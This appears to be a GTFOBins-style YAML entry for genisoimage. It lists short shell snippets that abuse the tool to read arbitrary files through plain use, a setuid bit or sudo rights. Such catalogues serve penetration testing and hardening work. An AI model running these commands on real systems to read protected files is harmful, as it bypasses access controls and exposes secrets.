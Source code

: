 ```yaml
---
description: The output is placed inside the ISO9660 file system binary format thus it may not be suitable for binary content as is, yet it can be mounted or extracted with tools like `7z`.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        genisoimage -q -o - "$LFILE"
  suid:
    - description: Read $LFILE if genisoimage has the setuid bit
      code: |
        LFILE=file_to_read
        genisoimage -sort "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo genisoimage -q -o - "$LFILE"
---
```

